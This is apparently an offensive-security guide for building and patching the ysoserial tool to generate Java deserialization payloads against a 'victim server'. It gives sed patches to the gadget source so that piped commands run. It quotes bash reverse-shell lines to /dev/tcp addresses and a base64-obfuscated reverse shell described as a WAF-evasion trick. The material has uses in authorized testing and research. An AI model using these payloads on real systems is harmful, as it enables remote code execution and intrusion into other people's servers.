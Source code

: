 #### 2.1. `ysoserial` setup

Info about `java` version:
```
# java --version
java 11.0.1 2018-10-16 LTS
Java(TM) SE Runtime Environment 18.9 (build 11.0.1+13-LTS)
Java HotSpot(TM) 64-Bit Server VM 18.9 (build 11.0.1+13-LTS, mixed mode)
```

Building `ysoserial` from source:
```
# apt-get install maven -yqq
# git clone https://github.com/frohoff/ysoserial && cd ysoserial

[ REMEMBER TO PATCH NOW]

# mvn clean package -DskipTests -Dhibernate5 # for Hibernate5 support
# mv target/ysoserial-*-SNAPSHOT-all.jar ~/ysoserial.jar && cd ~
```

Quick smoke test - Hibernate 5:
```
# java -Dhibernate5 -jar ysoserial.jar Hibernate1 'ls' > /tmp/hibernate5.serial
# file /tmp/hibernate5.serial && rm /tmp/hibernate5.serial
/tmp/hibernate5.serial: Java serialization data, version 5
```

Quick smoke test - Commons Collections 5:
```
# java -jar ysoserial.jar CommonsCollections5 'ls' > /tmp/collections5.serial
# file /tmp/collections5.serial && rm /tmp/collections5.serial
/tmp/collections3.serial: Java serialization data, version 5
```

#### 2.2. Some words on patching

To support complex commands, `ysoserial` needs to be patched from a case-to-case basis.

From: `https://github.com/summitt/burp-ysoserial`
```
... commands like the following command would fail to execute on the victim server in the original ysoserial ...
... to run complex commands that pipe command into other commands in java the arguments needs to be a string Array ...

/bin/bash,,-c,,bash -i >& /dev/tcp/X.X.X.X/9997 0>&1

The above code will be split into a string array that java can run on the victim server. :) The resulting java code would look like: Runtime.getRuntime().exec(new String[]{"/bin/bash", "-c", "bash -i >& /dev/tcp/X.X.X.X/9997 0>&1"});
```


#### 2.3. `ysoserial` patch 1 - `CommonsCollections5.java`

Since `burp-ysoserial` doesn't offer CommonsCollections5 (CC5) payload, so we need to fix the `ysoserial` manually.

File: `https://raw.githubusercontent.com/frohoff/ysoserial/master/src/main/java/ysoserial/payloads/CommonsCollections5.java`

Find the lines to be modified:
```
# file=`find ~/ysoserial -name CommonsCollections5.java`
# grep -n 'final.*execArgs = new .*' $file
60:		final String[] execArgs = new String[] { command };
# grep -n 'new Class.*execArgs.*' $file
74:					new Class[] { String.class }, execArgs),
```

Applying the patch:
```
# sed -i '60s/.*/final String[] execArgs = new String[]{"\/bin\/bash", "-c", command};/' $file
# sed -i '74s/.*/new Class[] { String[].class }, new Object[]{execArgs}),/' $file
```

Note: payloads like `java -jar ysoserial.jar CommonsCollections5 "sleep 5"` will fail in this case because the command must be executed via `Runtime.getRuntime().exec("sleep 10").waitFor();` -  whereas the `waitFor()` is missing in the gadget's `Transformer` object.


#### 2.4. `ysoserial` patch 2 - Hibernate 5 (`waitFor()` gadget)

File: `https://raw.githubusercontent.com/frohoff/ysoserial/master/src/main/java/ysoserial/payloads/util/Gadgets.java`

Find the lines to be modified:
```
# file=`find ~/ysoserial -name Gadgets.java`
# grep -n '\"\\");\";' $file
118:            "\");";
```

Applying the patch:
```
# sed -i '118s/.*/"\\").waitFor();";/' $file
```

Other patch could be applied for reverse shell:

```
String cmd = "java.lang.Runtime.getRuntime().exec(new String []{\"/bin/bash\",\"-c\",\"exec 5<>/dev/tcp/10.0.0.1/8080;cat <&5 | while read line; do \\$line 2>&5 >&5; done\"}).waitFor();";
```

Nice trick for WAF evasion:

- Default: `bash -i >& /dev/tcp/[IP address]/[port] 0>&1`
- Modified: `bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xMC4xLzgwODAgMD4mMQ==}|{base64,-d}|{bash,-i}`
- Tool: `http://jackson.thuraisamy.me/runtime-exec-payloads.html`
